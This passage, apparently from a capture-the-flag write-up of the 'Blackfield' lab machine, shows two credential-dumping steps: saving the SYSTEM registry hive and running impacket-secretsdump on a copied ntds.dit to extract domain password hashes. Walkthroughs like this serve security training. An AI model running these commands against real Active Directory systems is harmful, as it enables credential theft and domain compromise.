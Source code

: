 <img src="/img/Blackfield_Screenshots/Pasted image 20250123105428.png" alt="1" style="width:700px; height:auto;">
<br/>

Copy the system file too, to be able to `decrypt` the `NTDS` file.     

```powershell
 reg save hklm\system c:\temp\system
```

<br/> 
<img src="/img/Blackfield_Screenshots/Pasted image 20250123105518.png" alt="1" style="width:700px; height:auto;">
<br/>

Now use `secretsdump` to perform the attack and extract the `hash`.    

```bash
impacket-secretsdump LOCAL -system system -ntds ntds.dit
```

<br/> 